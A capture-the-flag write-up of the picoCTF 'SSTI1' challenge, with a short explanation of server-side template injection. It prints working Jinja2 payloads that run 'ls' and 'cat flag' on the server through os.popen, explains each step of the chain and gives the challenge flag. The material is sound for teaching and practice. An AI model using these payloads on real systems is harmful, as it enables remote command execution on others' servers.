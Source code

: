 # Web Gauntlet
---
# SSTI1 

Was provided with a website: http://rescued-float.picoctf.net:61245/ 

Its a python server, so its most probably gonna be jinja2. I found this using Burp Suite by examining the server name in the GET requests.   
![[Pasted image 20251027122905.png]]


As the name of the challenge suggests, I have to implement server side template injection.
I learnt what is Server Side Template Injection using the reference provided in the end.  
This is how the website looks like: 

![[Pasted image 20251027123210.png]]

On providing input of hello, the website is redirected to  http://rescued-float.picoctf.net:61245/announce and displays this:  

![[Pasted image 20251027123254.png]]

Providing input of `{{ 7*7 }}` gave me output of 49, so its confirmed that its jinja2. 
Now  I can begin crafting my payload 

My ultimate aim is to check what files are there on the server and then read those files to get the flag. 
What I need to do is do remote command execution, basically run, 'ls', 'cat' etc. on the server via the template injection. 

After referring to the reference provided below, I created this payload: 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

Output: 
```
# __pycache__ app.py flag requirements.txt
```
What this does is basically , runs the command `ls`  on the server and returns its output. 
Break down: 
1. `request.application` - Accesses the Flask application object through request context
2. `__globals__` - Gets the global variables of the application module 
3. `.__builtins__` - Accesses Python's built-in functions (like `open`, `eval`, `__import__`, etc.)
4. `.__import__('os')` - Imports the `os` module
5. `.popen('id')` - Opens a pipe to execute the `id` command in the shell. `popen()` runs shell commands and returns a file-like object
6. `.read()` - Reads the output from the command

Now as I know the file `flag` is present in the present working directory. I can read it using`cat`. 

Input: 
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

Output: 
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
```

flag:`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}`
#### What is SSTI ? 

A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort. Templates can be used when only minor details of a page need to change from circumstance to circumstance. For example, depending on the IP that accesses a site, the site may look like:

```htmlmixed=
<h1>Welcome to the page!</h1>
<u>This page is being accessed from the remote address: {{ip}}</u>
```

Instead of creating a whole new page per person that accesses the site, it will simply render the remote address into the `{{ip}}` variable, while reusing the rest of the HTML for each person request the server receives to that endpoint.

This can be abused, since some template engines support some fairly complex functionality, that eventually allow for developers to run commands or file contents straight from the template.

### Reference: 

https://onsecurity.io/article/server-side-template-injection-with-jinja2/

---
# Cookies 


 

